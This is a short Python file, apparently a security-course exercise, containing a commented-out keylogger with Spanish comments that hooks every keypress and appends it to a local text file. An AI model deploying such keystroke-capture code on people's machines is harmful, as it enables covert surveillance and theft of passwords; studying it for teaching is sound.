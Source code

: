 # SI_T5_P1

# import keyboard #Importa la librería que detecta el teclado

# def teclaspulsadas(key): #Define la función teclas pulsadas con el parámetro key
    
#    with open('datos.txt', 'a') as file: #Abre el archivo datos.txt para alamcenar las teclas ahí. y la a añade texto para que no se sobrescriba.
        
#        if key.name == 'space': #Condicional que en resumen, si pulsas el espacio se imprime un blanco y si no la tecla pulsada. Ambos se escriben en el archivo con el file.write.

#            file.write(' ')
#        else:
#            file.write(key.name)

# keyboard.on_press(teclaspulsadas)  #Llama a la función cada vez que el usuario pulsa una tecla.

# keyboard.wait() #Hace que el programa se ejecute hasta que se pause.